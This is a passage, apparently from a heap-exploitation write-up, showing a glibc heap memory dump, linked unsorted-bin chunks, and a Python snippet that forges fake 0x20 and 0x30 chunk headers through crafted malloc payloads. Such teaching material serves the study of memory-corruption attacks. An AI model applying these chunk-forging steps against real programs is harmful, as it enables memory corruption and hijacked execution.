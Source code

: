 ```
0x55ee5ca96d00	0x3241324132413241	0x3241324132413241	A2A2A2A2A2A2A2A2
0x55ee5ca96d10	0x3241324132413241	0x3241324132413241	A2A2A2A2A2A2A2A2
0x55ee5ca96d20	0x3241324132413241	0x3241324132413241	A2A2A2A2A2A2A2A2
0x55ee5ca96d30	0x3241324132413241	0x3241324132413241	A2A2A2A2A2A2A2A2
0x55ee5ca96d40	0x3241324132413241	0x3241324132413241	A2A2A2A2A2A2A2A2
0x55ee5ca96d50	0x0000000000000090	0x0000000000000090	................
0x55ee5ca96d60	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96d70	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96d80	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96d90	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96da0	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96db0	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96dc0	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96dd0	0x3242324232423242	0x3242324232423242	B2B2B2B2B2B2B2B2
0x55ee5ca96de0	0x0000000000000120	0x0000000000000090	 ...............
0x55ee5ca96df0	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e00	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e10	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e20	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e30	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e40	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e50	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e60	0x3243324332433243	0x3243324332433243	C2C2C2C2C2C2C2C2
0x55ee5ca96e70	0x00000000000001b0	0x0000000000000090	................
0x55ee5ca96e80	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96e90	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96ea0	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96eb0	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96ec0	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96ed0	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96ee0	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96ef0	0x3244324432443244	0x3244324432443244	D2D2D2D2D2D2D2D2
0x55ee5ca96f00	0x3244324432443244	0x0000000000000021	D2D2D2D2!.......
0x55ee5ca96f10	0x0033204452415547	0x0000000000000000	GUARD 3.........
0x55ee5ca96f20	0x0000000000000000	0x000000000001f0e1	................ <-- Top chunk
```

Here, you will notice that the `unsorted bin 0` points to `unsorted bin 1` and vice-versa:
```
0x55ee5ca96a60	0x0000000000000000	0x00000000000001b1	................ <-- unsortedbin[all][1]
0x55ee5ca96a70	0x00007f0638ffed00	0x000055ee5ca96cc0	...8.....l.\.U..

[...]

0x55ee5ca96cc0	0x0000000000000000	0x00000000000001b1	................ <-- unsortedbin[all][0]
0x55ee5ca96cd0	0x000055ee5ca96a60	0x00007f0638ffed00	`j.\.U.....8....
```


Then, fake a `0x20` and a `0x30` chunk by allocating three of the `0x88` chunks that make up the unsorted chunk, such that we still have a pointer pointing to our newly faked chunk:
```python
unsorted2 = malloc(0x1a8, b'2'*0x118+p64(0x31))
unsorted1 = malloc(0x1a8, b'1'*0x118+p64(0x21))
```
